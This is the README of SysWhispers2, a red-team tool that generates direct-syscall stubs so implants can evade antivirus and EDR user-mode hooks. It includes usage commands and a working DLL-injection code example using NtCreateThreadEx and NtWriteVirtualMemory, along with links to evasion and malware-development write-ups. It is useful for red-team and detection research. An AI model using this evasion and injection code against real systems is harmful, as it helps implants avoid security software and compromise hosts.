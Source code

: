 # SysWhispers2

SysWhispers helps with evasion by generating header/ASM files implants can use to make direct system calls.

All core syscalls are supported and example generated files available in the `example-output/` folder.

## Difference Between SysWhispers 1 and 2

The usage is almost identical to [SysWhispers1](https://github.com/jthuraisamy/SysWhispers) but you don't have to specify which versions of Windows to support. Most of the changes are under the hood. It no longer relies on [@j00ru](https://twitter.com/j00ru)'s [syscall tables](https://github.com/j00ru/windows-syscalls), and instead uses the "[sorting by system call address](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)" technique popularized by [@modexpblog](https://twitter.com/modexpblog). This significantly reduces the size of the syscall stubs.

The specific implementation in SysWhispers2 is a variation of @modexpblog's code. One difference is that the function name hashes are randomized on each generation. [@ElephantSe4l](https://twitter.com/ElephantSe4l), who had [published](https://www.crummie5.club/freshycalls/) this technique earlier, has another [implementation](https://github.com/crummie5/FreshyCalls) based in C++17 which is also worth checking out.

The original SysWhispers repository is still up but may be deprecated in the future.

## Introduction

Various security products place hooks in user-mode API functions which allow them to redirect execution flow to their engines and detect for suspicious behaviour. The functions in `ntdll.dll` that make the syscalls consist of just a few assembly instructions, so re-implementing them in your own implant can bypass the triggering of those security product hooks. This technique was popularized by [@Cn33liz](https://twitter.com/Cneelis) and his [blog post](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) has more technical details worth reading.

SysWhispers provides red teamers the ability to generate header/ASM pairs for any system call in the core kernel image (`ntoskrnl.exe`). The headers will also include the necessary type definitions.

## Installation

```bash
> git clone https://github.com/jthuraisamy/SysWhispers2.git
> cd SysWhispers2
> py .\syswhispers.py --help
```

## Usage and Examples

### Command Lines

```powershell
# Export all functions with compatibility for all supported Windows versions (see example-output/).
py .\syswhispers.py --preset all -o syscalls_all

# Export just the common functions (see below for list).
py .\syswhispers.py --preset common -o syscalls_common

# Export NtProtectVirtualMemory and NtWriteVirtualMemory with compatibility for all versions.
py .\syswhispers.py --functions NtProtectVirtualMemory,NtWriteVirtualMemory -o syscalls_mem
```

### Script Output

```
PS C:\Projects\SysWhispers2> py .\syswhispers.py --preset common --out-file syscalls_common

                  .                         ,--. 
,-. . . ,-. . , , |-. o ,-. ,-. ,-. ,-. ,-.    / 
`-. | | `-. |/|/  | | | `-. | | |-' |   `-. ,-'  
`-' `-| `-' ' '   ' ' ' `-' |-' `-' '   `-' `--- 
     /|                     |  @Jackson_T                 
    `-'                     '  @modexpblog, 2021

SysWhispers2: Why call the kernel when you can whisper?

Common functions selected.

Complete! Files written to:
        syscalls_common.h
        syscalls_common.c
        syscalls_common_stubs.asm
```

### Before-and-After Example of Classic `CreateRemoteThread` DLL Injection

```
py .\syswhispers.py -f NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o syscalls
```

```c
#include <Windows.h>

void InjectDll(const HANDLE hProcess, const char* dllPath)
{
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    LPVOID lpStartAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
	
    WriteProcessMemory(hProcess, lpBaseAddress, dllPath, strlen(dllPath), nullptr);
    CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)lpStartAddress, lpBaseAddress, 0, nullptr);
}
```

```c
#include <Windows.h>
#include "syscalls.h" // Import the generated header.

void InjectDll(const HANDLE hProcess, const char* dllPath)
{
    HANDLE hThread = NULL;
    LPVOID lpAllocationStart = nullptr;
    SIZE_T szAllocationSize = strlen(dllPath);
    LPVOID lpStartAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
	
    NtAllocateVirtualMemory(hProcess, &lpAllocationStart, 0, (PULONG)&szAllocationSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(hProcess, lpAllocationStart, (PVOID)dllPath, strlen(dllPath), nullptr);
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, lpStartAddress, lpAllocationStart, FALSE, 0, 0, 0, nullptr);
}
```

## Common Functions

Using the `--preset common` switch will create a header/ASM pair with the following functions:

<details>
  <summary>Click to expand function list.</summary>

- NtCreateProcess (CreateProcess)
- NtCreateThreadEx (CreateRemoteThread)
- NtOpenProcess (OpenProcess)
- NtOpenThread (OpenThread)
- NtSuspendProcess
- NtSuspendThread (SuspendThread)
- NtResumeProcess
- NtResumeThread (ResumeThread)
- NtGetContextThread (GetThreadContext)
- NtSetContextThread (SetThreadContext)
- NtClose (CloseHandle)
- NtReadVirtualMemory (ReadProcessMemory)
- NtWriteVirtualMemory (WriteProcessMemory)
- NtAllocateVirtualMemory (VirtualAllocEx)
- NtProtectVirtualMemory (VirtualProtectEx)
- NtFreeVirtualMemory (VirtualFreeEx)
- NtQuerySystemInformation (GetSystemInfo)
- NtQueryDirectoryFile
- NtQueryInformationFile
- NtQueryInformationProcess
- NtQueryInformationThread
- NtCreateSection (CreateFileMapping)
- NtOpenSection
- NtMapViewOfSection
- NtUnmapViewOfSection
- NtAdjustPrivilegesToken (AdjustTokenPrivileges)
- NtDeviceIoControlFile (DeviceIoControl)
- NtQueueApcThread (QueueUserAPC)
- NtWaitForMultipleObjects (WaitForMultipleObjectsEx)
</details>

## Importing into Visual Studio

1. Copy the generated H/C/ASM files into the project folder.
2. In Visual Studio, go to *Project* → *Build Customizations...* and enable MASM.
3. In the *Solution Explorer*, add the .h and .c/.asm files to the project as header and source files, respectively.
4. Go to the properties of the ASM file, and set the *Item Type* to *Microsoft Macro Assembler*.

## Caveats and Limitations

- Only 64-bit Windows is supported at this time.
- System calls from the graphical subsystem (`win32k.sys`) are not supported.
- Tested on Visual Studio 2019 (v142) with Windows 10 SDK.

## Troubleshooting

- Type redefinitions errors: a project may not compile if typedefs in `syscalls.h` have already been defined.
  - Ensure that only required functions are included (i.e. `--preset all` is rarely necessary).
  - If a typedef is already defined in another used header, then it could be removed from `syscalls.h`.

## Credits

Developed by [@Jackson_T](https://twitter.com/Jackson_T) and [@modexpblog](https://twitter.com/modexpblog), but builds upon the work of many others:

- [@FoxHex0ne](https://twitter.com/FoxHex0ne) for cataloguing many function prototypes and typedefs in a machine-readable format.
- [@PetrBenes](https://twitter.com/PetrBenes), [NTInternals.net team](https://undocumented.ntinternals.net/), and [MSDN](https://docs.microsoft.com/en-us/windows/) for additional prototypes and typedefs.
- [@Cn33liz](https://twitter.com/Cneelis) for the initial [Dumpert](https://github.com/outflanknl/Dumpert) POC implementation.

## Related Articles and Projects

- [@modexpblog](https://twitter.com/modexpblog): [Bypassing User-Mode Hooks and Direct Invocation of System Calls for Red Teams](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)
- [@hodg87](https://twitter.com/hodg87): [Malware Mitigation when Direct System Calls are Used](https://www.cyberbit.com/blog/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/)
- [@Cn33liz](https://twitter.com/Cneelis): [Combining Direct System Calls and sRDI to bypass AV/EDR](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) ([Code](https://github.com/outflanknl/Dumpert))
- [@0x00dtm](https://twitter.com/0x00dtm): [Userland API Monitoring and Code Injection Detection](https://0x00sec.org/t/userland-api-monitoring-and-code-injection-detection/5565)
- [@0x00dtm](https://twitter.com/0x00dtm): [Defeating Userland Hooks (ft. Bitdefender)](https://0x00sec.org/t/defeating-userland-hooks-ft-bitdefender/12496) ([Code](https://github.com/NtRaiseHardError/Antimalware-Research/tree/master/Generic/Userland%20Hooking/AntiHook))
- [@mrgretzky](https://twitter.com/mrgretzky): [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
- [@SpecialHoang](https://twitter.com/SpecialHoang): [Bypass EDR’s memory protection, introduction to hooking](https://medium.com/@fsx30/bypass-edrs-memory-protection-introduction-to-hooking-2efb21acffd6) ([Code](https://github.com/hoangprod/AndrewSpecial/tree/master))
- [@xpn](https://twitter.com/_xpn_) and [@domchell](https://twitter.com/domchell): [Silencing Cylance: A Case Study in Modern EDRs](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/)
- [@mrjefftang](https://twitter.com/mrjefftang): [Universal Unhooking: Blinding Security Software](https://threatvector.cylance.com/en_us/home/universal-unhooking-blinding-security-software.html) ([Code](https://github.com/CylanceVulnResearch/ReflectiveDLLRefresher))
- [@spotheplanet](https://twitter.com/spotheplanet): [Full DLL Unhooking with C++](https://ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)
- [@hasherezade](https://twitter.com/hasherezade): [Floki Bot and the stealthy dropper](https://blog.malwarebytes.com/threat-analysis/2016/11/floki-bot-and-the-stealthy-dropper/)
- [@hodg87](https://twitter.com/hodg87): [Latest Trickbot Variant has New Tricks Up Its Sleeve](https://www.cyberbit.com/blog/endpoint-security/latest-trickbot-variant-has-new-tricks-up-its-sleeve/)

## References to SysWhispers

- [@JFaust_](https://twitter.com/JFaust_): Process Injection [Part 1](https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/), [Part 2](https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/), and [Alaris loader](https://sevrosecurity.com/2020/10/14/alaris-a-protective-loader/) project ([Code](https://github.com/cribdragg3r/Alaris))
- [@0xPat](https://www.twitter.com/0xPat): [Malware Development Part 2](https://0xpat.github.io/Malware_development_part_2/)
- [@brsn76945860](https://twitter.com/brsn76945860): [Implementing Syscalls In The CobaltStrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
- [@Cn33liz](https://twitter.com/Cneelis) and [@_DaWouw](https://twitter.com/_DaWouw): [Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/) ([Code](https://github.com/outflanknl/InlineWhispers))

## Licence

This project is licensed under the Apache License 2.0.
